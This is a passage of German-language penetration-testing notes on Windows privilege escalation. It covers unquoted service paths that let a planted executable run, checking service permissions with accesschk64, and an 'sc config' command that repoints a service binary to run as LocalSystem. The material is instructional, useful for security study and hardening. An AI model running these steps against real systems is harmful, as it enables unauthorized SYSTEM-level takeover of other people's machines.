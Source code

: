 Durch fehlende Anführungszeichen kommen mehrere Pfade in Frage:

| Befehl                                               | Argument 1                 | Argument 2                 |
| ---------------------------------------------------- | -------------------------- | -------------------------- |
| C:\MyPrograms\Disk.exe                               | Sorter                     | Enterprise\bin\disksrs.exe |
| C:\MyPrograms\Disk Sorter.exe                        | Enterprise\bin\disksrs.exe |                            |
| C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe |                            |                            |

Windows prüft von minimal auf maximal wie in der Tabelle aufgelistet. Ist eine Datei unter dem Namen vorhanden, wird sie ausgeführt. D.h. es kann eine Datei eingeschleust werden, die bspw. Disk.exe darstellt.



### Service ( unsichere Berechtigungen )

Möglichkeit zur Rekonfiguration eines bestehenden Services ( service DACL )

```
accesschk64.exe -qlc <service_name>
# Prüfung der service DACL eines Dienstes mit Accesschk ( sysinternals )
```

```shell-session
C:\tools\AccessChk> accesschk64.exe -qlc psyservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
        
 # Die Gruppe BUILTIN\\USERS hat hier die Berechtigung SERVICE_ALL_ACCESS, womit
 eine Modifikation der Servicekonfiguration möglich ist.
```

```
sc config <service_name> binPath= "C:\pfad\zur\Datei" obj= LocalSystem
# Änderung von ImagePath und ObjectName eines Services
```



## Missbrauch gefährlicher Privilegien

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants" fullWidth="false" %}

{% embed url="https://github.com/gtworek/Priv2Admin" fullWidth="false" %}
